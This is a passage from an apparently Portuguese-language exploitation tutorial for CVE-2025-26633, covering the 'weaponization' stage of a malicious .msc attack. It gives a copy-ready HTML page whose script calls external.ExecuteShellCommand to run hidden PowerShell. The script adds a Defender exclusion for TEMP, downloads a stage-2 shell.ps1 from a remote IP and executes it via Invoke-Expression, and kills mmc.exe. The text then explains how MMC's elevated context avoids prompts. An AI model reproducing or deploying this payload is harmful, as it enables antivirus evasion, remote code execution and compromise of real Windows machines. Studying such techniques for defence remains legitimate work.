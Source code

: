 # 4. Weaponization

## 4.1. Preparando a página `index.html`

Primeiro! Vamos começar pela página html, pois aqui preciso explicar algumas coisinhas... A página web que criaremos, servirá apenas para hospedar o estágio 2 do ataque. Crie um arquivo `index.html` e copie o código abaixo:

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Game Over</title>
</head>
<body>
<h1>CVE-2025-26633</h1>
    <script>
    external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command & {Add-MpPreference -ExclusionPath $env:TEMP}", "Minimized");
    external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command \"Invoke-RestMethod -Uri 'http://192.168.145.115/stage2/shell.ps1' | Invoke-Expression\"", "Minimized");
    external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command & {taskkill /f /im mmc.exe}", "Minimized");
    // external.ExecuteShellCommand("powershell.exe", "", "-ExecutionPolicy Bypass -WindowStyle Hidden -Command & {Start-Process calc.exe}", "Minimized");
    </script>
</body>  
</html>
```

### 4.1.1. Para que serve o `external.ExecuteShellCommand` nessa página?

O motivo de criarmos a página web assim é que, ao executarmos uma página `.html` deentro de um arquivo `.msc`, ele é capaz de executar comandos no terminal. O `external.ExecuteShellCommand` é um método que é exposto por alguns componentes ActiveX no contexto do Internet Explorer embutido. Em MMCs personalizados, o controle `WebBrowser` pode estar presente, e ele fornece uma interface COM chamada `external`.

### 4.1.2. Como o `.msc` se encaixa nesse cenário?

Um `.msc` pode ser personalizado para carregar uma página HTML remota ou local. Se essa página HTML estiver com um JavaScript malicioso e o ambiente estiver vulnerável (por exemplo, rodando com permissões elevadas e com configurações antigas do IE/ActiveX), o script pode:

- Acessar o objeto external
- Executar comandos PowerShell diretamente
- Evitar avisos ou prompts, pois o MMC geralmente roda com permissões elevadas (principalmente se for um snap-in administrativo)
